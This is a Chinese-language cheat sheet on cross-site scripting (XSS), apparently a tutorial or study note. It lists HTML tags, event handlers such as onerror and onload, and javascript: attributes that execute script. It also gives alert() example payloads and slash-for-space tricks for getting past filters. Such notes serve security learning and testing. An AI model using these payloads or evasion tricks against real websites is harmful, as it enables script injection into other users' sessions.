 ***XSS***

要想XSS必须要能够执行js代码

前排提示：如果是通过GET传参的话要对 + & #等进行编码，POST不需要，但是要注意下

属性或事件的名称不能被编码，但是属性或事件的值可以被html编码

能够执行js代码的标签

```
<script> <a> <p> <img> <body> <button> <var> <div> <iframe> <object> <input> <select> <textarea> <keygen> <frameset> <embed> <svg> <math> <video> <audio>
```



能够执行js代码的事件,在每个标签中以=来连接js代码，

例`<img src=x onerror=alert(1) />`

```
onload onunload onchange onsubmit onreset onselect onblur onfocus onabort onkeydown onkeypress onkeyup onclick ondbclick onmouseover onmousemove onmouseout onmouseup onforminput onformchange ondrag ondrop onerror
```

在这么多事件中，能够在图片或文件加载失败时候直接触发是`onerror`

能够在有焦点(就那个输入框的小光标)的情况下能直接触发的是`onfocus`（配合`autofocus `）

能够加载的标签比如`<svg>`和`<iframe>`能够直接触发的是`onload`

其他都是要一定交互的



能够执行js代码的属性，在每个标签中申明js语言再用:来连接js代码，

例`<a href=javascript:alert(1)>x</a>`

```
formaction action href xlink:href autofocus src content data
```



在标签中便签名和第一个属性间的`空格`可以用`/`来代替，最后一个属性的键值对和 `/>`直接的`空格`也可以用`/`代替，例如

```
<img src=x onerror=alert(1) />			//正常情况
<img/src=x onerror=alert(1) />			//代替前面的空格
<img src=x onerror=alert(1)//>			//代替后面的空格
<img/src=x onerror=alert(1)//>			//代替前后的空格
<img src=x/onerror=alert(1) />			//错误无法解析
```



------

`<script>`

专门为能执行js的标签用法
